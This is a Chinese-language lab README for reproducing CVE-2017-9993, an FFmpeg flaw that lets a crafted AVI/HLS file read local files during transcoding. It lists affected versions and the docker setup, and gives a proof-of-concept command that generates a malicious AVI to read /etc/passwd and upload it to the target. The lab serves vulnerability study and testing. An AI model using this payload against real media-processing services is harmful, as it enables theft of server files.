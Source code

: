 ## FFmpeg 文件读取漏洞(CVE-2017-9993)

### 漏洞信息

FFmpeg是一个完整的跨平台解决方案，用于记录、转换流式传输音频和视频，可用于预览生成和视频转换的视频编码软件。已知FFmpeg可以处理可能包含对外部文件的引用的HLS播放列表,可以使用AVI文件中的GAB2字幕块来触发此功能，再通过XBIN编解码器检索转换节点的本地文件，从而导致了可以在转码后的视频里包含了本地文件.

### 影响范围

小于 2.8.12, 3.0.x 以及 3.1.x 版本小于 3.1.9, 3.2.x 小于 3.2.6, 以及 3.3.x 版本小于 3.3.2

### 镜像信息

类型 | 值
:-:|:-:
FFmpeg | 3.1.3
HTTP 端口 | 80
镜像 tag | f_ffmpeg_1

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:f_ffmpeg_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:f_ffmpeg_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 


### POC

> 假如目标地址为： http://127.0.0.1:8000/

使用该脚本用于生成 POC: https://github.com/neex/ffmpeg-avi-m3u-xbin

以读取 `/etc/passwd` 为例：

1. 生成特殊的视频文件

```
$ python3 gen_xbin_avi.py file:///etc/passwd passwd.avi
```

2. 上传 [passwd.avi](./passwd.avi) 到目标，即可看到如下结果：

![](./poc.png)


### 相关链接

* [CVE-2017-9993 Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-9993)
* [ffmpeg-avi-m3u-xbin](https://github.com/neex/ffmpeg-avi-m3u-xbin)
* [FFmpeg 安全问题讨论](http://paper.seebug.org/338/)
